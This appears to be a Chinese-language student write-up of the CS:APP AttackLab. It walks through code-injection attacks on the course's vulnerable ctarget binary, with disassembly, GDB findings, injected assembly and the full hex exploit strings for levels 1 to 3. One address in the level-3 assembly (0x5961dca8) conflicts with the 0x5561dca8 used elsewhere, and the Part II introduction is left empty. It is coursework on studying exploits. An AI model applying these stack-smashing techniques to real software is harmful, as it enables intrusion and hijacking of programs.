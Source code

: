 # AttackLab
------------------------------
## 实验目的:
由于C语言中gets()不检查输入字符的边界,可能导致栈被破坏.造成漏洞,这个Lab就用来Attack原始代码,使原始代码执行不应该执行的那部分程序.包括两部分:      
   
- Code Injection Attacks    
- Return-Oriented Programming
   
第一个部分包括3个phase, 是利用字符串将重定向程序以执行现有过程。   
第二个部分
## 实验准备:
- GDB调试工具
- GDB调试常用命令

## 实验过程
首先用```objdump -d ctarget > ctarget_disassemble.txt```将```ctarget```和```rtarget```反汇编到文件中.   
方便分析.   
## PartI Code Injection Attacks
### Level1 : 执行Touch1
由题意可得,```test()```函数中调用了```getbuf()```读入字符串,且调用完后,返回.即:
  
	1 void test()
	2 {
	3 int val;
	4 val = getbuf();
	5 printf("No exploit. Getbuf returned 0x%x\n", val);
	6 }
那么我们调用```getbuf()```后,可能栈会遭到破会,从而返回的函数地址发生变化.这样就不是```printf(...)```作为返回了.   
什么函数用到了```test()```?  
发现```launch()```的汇编代码中有:```callq 401968 <test>```,而```main()函数```中的```stable_launch()```中又调用了```launch()```.   
故我们只需关心```stable_launch()```函数即可,我们继续观察```getbuf()```.

	 00000000004017a8 <getbuf>:
	  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
	  4017ac:	48 89 e7             	mov    %rsp,%rdi
	  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
	  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
	  4017b9:	48 83 c4 28          	add    $0x28,%rsp
	  4017bd:	c3                   	retq   
	  4017be:	90                   	nop
	  4017bf:	90                   	nop

首先```sub $0x28 , %rsp```.说明BUFFER_SIZE为40个字节.我们在观察```touch()```函数的地址,为:
```00000000004017c0 <touch1>:````.   

故此时答案已经可以确定了,首先我们给随便40个字节的字符,之后再加上我们要跳转的地址(8字节),即:
```c0 17 40 00 00 00 00 00```这里是小端方式,故答案如下:  
![](https://i.imgur.com/wb0kwKI.png) 

### Level2:插入攻击代码,执行Touch2()
这个phase目的是,插入一小段攻击代码,并顺利执行```Touch2()```.
   
	1 void touch2(unsigned val)
	2 {
	3 vlevel = 2; / * Part of validation protocol* /
	4 if (val == cookie) {
	5 printf("Touch2!: You called touch2(0x%.8x)\n", val);
	6 validate(2);
	7 } else {
	8 printf("Misfire: You called touch2(0x%.8x)\n", val);
	9 fail(2);
	10 }
	11 exit(0);
	12 }

即在执行Touch2()之前,我们需要设置参数```val```,使其等于我们各自的```cookie```.      
故根据```Phase1()```,我们将攻击代码写入到字符串中,并修改返回地址,使返回地址变成这个字符串的开头,这样就可以执行我们需要的代码了.     
编写攻击代码如下:   

	mov $0x59b997fa , %rdi  # 将cookie值放入rdi中,作为参数
	pushq $0x4017ec         # 关键一步,我们将Touch2()的地址入栈.以便执行
	retq                    # 这一步也关键,retq将rip指针指向返回地址,即修改后的$0x4017ec,即执行Touch2()

然后,放完缓冲区之后,紧接着就是修改返回地址.那么返回地址按我们的想法应该改为字符buffer的起始地址.也就是```sub 0x28, %rsp```之后的```rsp```的值.在执行该语句之前,rsp为```0x5561dca0``` .进入GDB调试:  
![](https://i.imgur.com/1bexbZ2.png)
得到```0x5561dc78```.故这就是我们需要的返回地址.   
那么答案就得到了:    
首先将攻击代码翻译为机器码:        
step1: ```gcc -c touch2.s```     
step2: ```objdump -d touch2.o > touch2.d```     
```touch2.d```中保存的即为机器码:  
![](https://i.imgur.com/lrXezYs.png)
接着,我们将返回地址也填入字符buffer中,最终的答案即为:

	48 c7 c7 fa 97
	b9 59 68 ec 17
	40 00 c3 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	00 00 00 00 00
	78 dc 61 55 00
	00 00 00

这里面有几个细节要注意一下:
    
- 首先,在```getbuf()```执行到```retq```后,这个时候才开始跳转到buffer起始地址,并准备执行攻击代码.      
此时rsp指针地址也不再是第一次准备执行```getbuf()```时的地址了,而是又向上(向栈底)增大了8个字节.即从```0x5561dca0```变为```0x5561dca8```,这就是由于```getbuf()```执行了```retq```,返回地址被弹出,所以```rsp```向栈底移动.  
- 然后开始执行攻击代码,此处可以看作一次```callq```,攻击代码中```pushq $0x4017ec <Touch2()>```,将```Touch2()```地址入栈,此时```rsp```地址为```0x5561dca0```,也就是这个调用攻击代码栈帧中的"返回地址",值为```Touch2()```起始地址.之后再次调用```retq```,同理此时弹出```pop``` "返回地址",此时```rip```就指向了```Touch2()```.同时,由于popq了返回地址,此时```rsp```又变为```0x5561dca8```.
- 总结来说,返回"攻击代码"实际上时一次```call和ret```,用这个```ret```来```call Touch2()```.


### Level3 : 执行Touch3()
```cookie = 59b997fa```  
和level2同理,注入攻击代码,执行touch3().首先看一下Touch3():

	11 void touch3(char * sval)
	12 {
	13 vlevel = 3; / * Part of validation protocol * /
	14 if (hexmatch(cookie, sval)) {
	15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
	16 validate(3);
	17 } else {
	18 printf("Misfire: You called touch3(\"%s\")\n", sval);
	19 fail(3);
	20 }
	21 exit(0);
	22 }

此处```Touch3()```又进一步调用了```hexmatch()```函数,且```touch3()```的参数是一个指针,这意味着我们要将字符串的地址传给```rdi```.    
在分析```hexmatch()```:
   
	2 int hexmatch(unsigned val, char * sval)
	3 {
	4 char cbuf[110];
	5 / * Make position of check string unpredictable * /
	6 char * s = cbuf + random() % 100;
	7 sprintf(s, "%.8x", val);
	8 return strncmp(sval, s, 9) == 0;
	9 }

此处由于有一个较大的char数组,且在这个数组中不确定的位置开始,修改为```cookie```的字符串表示.故```hexmatch()```势必会在栈上保存他的局部变量.至于修改哪九个字节,这取决于random的值了.   
故我们在```getbuf()```函数中的读入40个字节的```buffer```,也有可能会被修改.   
这样的话就导致,如果我们将```cookie```的字符串表示(```也就是sval```),放在buffer中,那么可能会被```hexmatch()```修改.所以我们需要GDB调试,看看哪些单元是不会被修改的,然后我们再将```sval```存到哪里,并将他的地址给```rdi```,这样就会顺利执行了.
此处注意,这个```random()```,每次程序开始运行的值是相同的,因为他的**seed一直是默认**.
GDB调试: 
我们在```hexmatch()```前后设置断点,观察前后的```buffer```区域的变化:   
![](https://i.imgur.com/yMwXD55.png) 
buffer区域从```0x5561dc78```开始.   
运行前:  
![](https://i.imgur.com/IzbxU5G.png)   
  
运行后:    
![](https://i.imgur.com/UY01g9j.png)    
可以看到,```0x5561dc78```到```0x5561dca0```都被修改了,是不安全的.    
故我们可以选择```0x5561dca8```或者```0x5561dcb8```的8个字节存放我们的cookie字符串.       
(他们其实都是0x0,该实验结果是拿正确答案进行调试的)
故答案就显而易见了:    
首先注入代码:   

	mov $0x5961dca8 , %rdi  # 将cookie字符串的地址放入rdi中,作为参数
	pushq $0x4018fa         # 我们将Touch3()的地址入栈.以便执行
	retq                    

之后翻译成机器码,接着在```0x5961dca8```的单元上放入字符串"59b997fa",这是cookie.   
注意字符串我们仍然要转为ASCII码的hex表示,也就是"35 39 62 39 39 37 66 61".   
故最终的输入为:  

	48 c7 c7 a8 dc 
	61 55 68 fa 18 
	40 00 c3 00 00 
	00 00 00 00 00 
	00 00 00 00 00 
	00 00 00 00 00 
	00 00 00 00 00 
	00 00 00 00 00 
	78 dc 61 55 00 
	00 00 00 35 39
	62 39 39 37 66
	61

![](https://i.imgur.com/s11YGKR.png)